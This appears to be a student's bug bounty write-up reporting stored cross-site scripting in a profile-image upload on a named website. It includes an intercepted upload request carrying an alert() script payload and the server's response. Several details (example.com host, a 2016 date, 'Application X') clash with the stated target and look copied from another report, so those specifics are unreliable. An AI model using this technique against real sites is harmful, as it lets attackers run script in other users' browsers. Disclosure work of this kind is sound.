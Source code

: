 # Major Project - Bug hunting on any target of openbugbounty
## Name - Varchasva Khare
## Team Members - [Ishan Amrit](https://github.com/IshanAmrit28), [Navya Pillai]()

## Issue Description
- Target website we got on [openbugbounty](openbugbounty.org) - [beachhouse.com](beachhouse.com)
- Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. 

## Issue Identified
The consultant identified that the update profile picture is vulnerable to cross site scripting, it is possible to upload an image with a MIME type of `text/html` this is then stored on the user's profile as an XSS payload, the outline below demonstrates the steps taken to exploit and reproduce.

## Risk Breakdown
- Risk: **High**
 
- Difficulty to Exploit: **Medium**
 
- CVSS2 Score: [**7.9**](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:S/C:C/I:C/A:N))

## Steps to Reproduce
The following steps indicate a proof of concept outlined in three(3) steps to reproduce and execute the issue.

**Step 1:**
Navigate to [https://www.beachhouse.com/portal/reg.php](https://www.beachhouse.com/portal/reg.php) and select edit as shown in screenshot attached below.

<img src="https://github.com/varchasvakhare2022/Corizo-Internship-Projects/blob/master/images/s1.png">

**Step 2:**
Modify the profile image request with a local proxy, in this case the consultant is using Burp Suite. Change the Content type from image to text/html as shown in the post request:

    POST /file/upload/ HTTP/1.1
    Host: example.com
    ---snip----
    
    -----------------------------900627130554
    Content-Disposition: form-data; name="stored_XSS.jpg"; filename="stored_XSS.jpg"
    Content-Type: text/html
    
    <script>alert('ZephrFish')</script>
    -----------------------------900627130554

When this is sent, the following response is shown:

    HTTP/1.1 200 OK
    Date: Sat, 13 Aug 2016 14:31:44 GMT
    ---snip---
    
    {"url": "https://example.com/56fc3b92159006271305543ef45a04452e8e45ce4/stored_XSS.jpg?Expires=1465669904&Signature=dNtl1PzWV&Key-Pair-Id=APKAJQWLJPIV25LBZGAQ", "pk": "56fc3b92159006271305543ef45a04452e8e45ce4/stored_XSS.jpg", "success": true}

**Step 3:**
The file has been uploaded to Application X and is hyperlinked to from the profile page as shown in step 3.jpg. By simply following the link to the image which in this case is:

The payload is executed, thus this demonstrates the issue is stored cross site scripting.

## Affected Demographic
This issue will affect all users on the site who view the profile of the attacker, when the image is rendered the payload is executed instead of a profile image. Additionally when the malicious user posts anything on the forums the payload will execute.

## References
For more information on remediation steps check out reference [[2]](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)).

 - [1] [OWASP XSS Explained](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [2] [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

